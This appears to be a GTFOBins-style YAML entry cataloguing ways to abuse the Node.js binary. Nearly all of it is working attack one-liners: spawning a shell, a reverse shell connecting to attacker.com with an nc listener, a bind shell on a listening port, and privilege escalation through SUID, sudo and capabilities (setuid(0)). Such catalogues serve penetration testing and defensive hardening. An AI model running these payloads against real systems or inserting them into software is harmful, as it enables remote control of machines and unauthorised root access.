 ```yaml
---
functions:
  shell:
    - code: |
        node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        node -e 'sh = require("child_process").spawn("/bin/sh");
        net.connect(process.env.RPORT, process.env.RHOST, function () {
          this.pipe(sh.stdin);
          sh.stdout.pipe(this);
          sh.stderr.pipe(this);
        });'
  bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        export LPORT=12345
        node -e 'sh = require("child_process").spawn("/bin/sh");
        require("net").createServer(function (client) {
          client.pipe(sh.stdin);
          sh.stdout.pipe(client);
          sh.stderr.pipe(client);
        }).listen(process.env.LPORT);'
  suid:
    - code: |
        ./node -e 'require("child_process").spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]});'
  sudo:
    - code: |
        sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
  capabilities:
    - code: |
        ./node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
---
```


